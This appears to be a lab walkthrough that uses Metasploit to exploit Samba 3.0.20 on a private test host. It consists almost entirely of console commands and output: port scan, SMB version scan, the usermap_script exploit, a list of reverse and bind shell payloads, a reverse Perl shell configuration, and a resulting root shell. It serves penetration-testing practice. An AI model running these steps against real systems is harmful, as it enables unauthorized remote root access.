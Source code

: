 #### <pre>139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

#### <pre>445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

## SMB Version Detection 
<pre>msf6 > search smb_version

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_version  .                normal  No     SMB Version Detection


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smb/smb_version</pre>


<pre>msf6 > use 0

msf6 auxiliary(scanner/smb/smb_version) > show options 

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                     no        The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)</pre>



<pre>msf6 auxiliary(scanner/smb/smb_version) > set rhost A.B.C.D</pre>

<pre>msf6 auxiliary(scanner/smb/smb_version) > set rport 139</pre>

<pre>msf6 auxiliary(scanner/smb/smb_version) > run</pre>
   

<pre>[*] 192.168.161.131:139   -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 192.168.161.131:      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed</pre>

## SAMBA 3.0.20 Exploitation
<pre>msf6 auxiliary(scanner/smb/smb_version) > search Samba 3.0.20</pre>

<pre>Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script</pre>

<pre>msf6 auxiliary(scanner/smb/smb_version) > use exploit/multi/samba/usermap_script</pre>

## SET Payload
<pre>msf6 exploit(multi/samba/usermap_script) > show payloads</pre> 

<pre>Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/adduser                    .                normal  No     Add user with useradd
   1   payload/cmd/unix/bind_awk                   .                normal  No     Unix Command Shell, Bind TCP (via AWK)
   2   payload/cmd/unix/bind_busybox_telnetd       .                normal  No     Unix Command Shell, Bind TCP (via BusyBox telnetd)
   3   payload/cmd/unix/bind_inetd                 .                normal  No     Unix Command Shell, Bind TCP (inetd)
   4   payload/cmd/unix/bind_jjs                   .                normal  No     Unix Command Shell, Bind TCP (via jjs)
   5   payload/cmd/unix/bind_lua                   .                normal  No     Unix Command Shell, Bind TCP (via Lua)
   6   payload/cmd/unix/bind_netcat                .                normal  No     Unix Command Shell, Bind TCP (via netcat)
   7   payload/cmd/unix/bind_netcat_gaping         .                normal  No     Unix Command Shell, Bind TCP (via netcat -e)
   8   payload/cmd/unix/bind_netcat_gaping_ipv6    .                normal  No     Unix Command Shell, Bind TCP (via netcat -e) IPv6
   9   payload/cmd/unix/bind_perl                  .                normal  No     Unix Command Shell, Bind TCP (via Perl)
   10  payload/cmd/unix/bind_perl_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   11  payload/cmd/unix/bind_r                     .                normal  No     Unix Command Shell, Bind TCP (via R)
   12  payload/cmd/unix/bind_ruby                  .                normal  No     Unix Command Shell, Bind TCP (via Ruby)
   13  payload/cmd/unix/bind_ruby_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   14  payload/cmd/unix/bind_socat_sctp            .                normal  No     Unix Command Shell, Bind SCTP (via socat)
   15  payload/cmd/unix/bind_socat_udp             .                normal  No     Unix Command Shell, Bind UDP (via socat)
   16  payload/cmd/unix/bind_zsh                   .                normal  No     Unix Command Shell, Bind TCP (via Zsh)
   17  payload/cmd/unix/generic                    .                normal  No     Unix Command, Generic Command Execution
   18  payload/cmd/unix/pingback_bind              .                normal  No     Unix Command Shell, Pingback Bind TCP (via netcat)
   19  payload/cmd/unix/pingback_reverse           .                normal  No     Unix Command Shell, Pingback Reverse TCP (via netcat)
   20  payload/cmd/unix/reverse                    .                normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   21  payload/cmd/unix/reverse_awk                .                normal  No     Unix Command Shell, Reverse TCP (via AWK)
   22  payload/cmd/unix/reverse_bash_telnet_ssl    .                normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   23  payload/cmd/unix/reverse_jjs                .                normal  No     Unix Command Shell, Reverse TCP (via jjs)
   24  payload/cmd/unix/reverse_ksh                .                normal  No     Unix Command Shell, Reverse TCP (via Ksh)
   25  payload/cmd/unix/reverse_lua                .                normal  No     Unix Command Shell, Reverse TCP (via Lua)
   26  payload/cmd/unix/reverse_ncat_ssl           .                normal  No     Unix Command Shell, Reverse TCP (via ncat)
   27  payload/cmd/unix/reverse_netcat             .                normal  No     Unix Command Shell, Reverse TCP (via netcat)
   28  payload/cmd/unix/reverse_netcat_gaping      .                normal  No     Unix Command Shell, Reverse TCP (via netcat -e)
   29  payload/cmd/unix/reverse_openssl            .                normal  No     Unix Command Shell, Double Reverse TCP SSL (openssl)
   30  payload/cmd/unix/reverse_perl               .                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   31  payload/cmd/unix/reverse_perl_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   32  payload/cmd/unix/reverse_php_ssl            .                normal  No     Unix Command Shell, Reverse TCP SSL (via php)
   33  payload/cmd/unix/reverse_python             .                normal  No     Unix Command Shell, Reverse TCP (via Python)
   34  payload/cmd/unix/reverse_python_ssl         .                normal  No     Unix Command Shell, Reverse TCP SSL (via python)
   35  payload/cmd/unix/reverse_r                  .                normal  No     Unix Command Shell, Reverse TCP (via R)
   36  payload/cmd/unix/reverse_ruby               .                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   37  payload/cmd/unix/reverse_ruby_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   38  payload/cmd/unix/reverse_socat_sctp         .                normal  No     Unix Command Shell, Reverse SCTP (via socat)
   39  payload/cmd/unix/reverse_socat_tcp          .                normal  No     Unix Command Shell, Reverse TCP (via socat)
   40  payload/cmd/unix/reverse_socat_udp          .                normal  No     Unix Command Shell, Reverse UDP (via socat)
   41  payload/cmd/unix/reverse_ssh                .                normal  No     Unix Command Shell, Reverse TCP SSH
   42  payload/cmd/unix/reverse_ssl_double_telnet  .                normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
   43  payload/cmd/unix/reverse_tclsh              .                normal  No     Unix Command Shell, Reverse TCP (via Tclsh)
   44  payload/cmd/unix/reverse_zsh                .                normal  No     Unix Command Shell, Reverse TCP (via Zsh)</pre>

<pre>msf6 exploit(multi/samba/usermap_script) > set payload 30</pre>

<pre>msf6 exploit(multi/samba/usermap_script) > show options</pre> 

<pre>Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  A.B.C.D          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic</pre>



<pre>msf6 exploit(multi/samba/usermap_script) > set rhosts A.B.C.D</pre>

<pre>msf6 exploit(multi/samba/usermap_script) > exploit</pre>

## Exploit completed
<pre>[*] Started reverse TCP handler on 192.168.161.128:4444 
[*] Command shell session 1 opened (192.168.161.128:4444 -> 192.168.161.131:48042) at 2025-02-04 16:32:45 +0530

id
uid=0(root) gid=0(root)</pre>

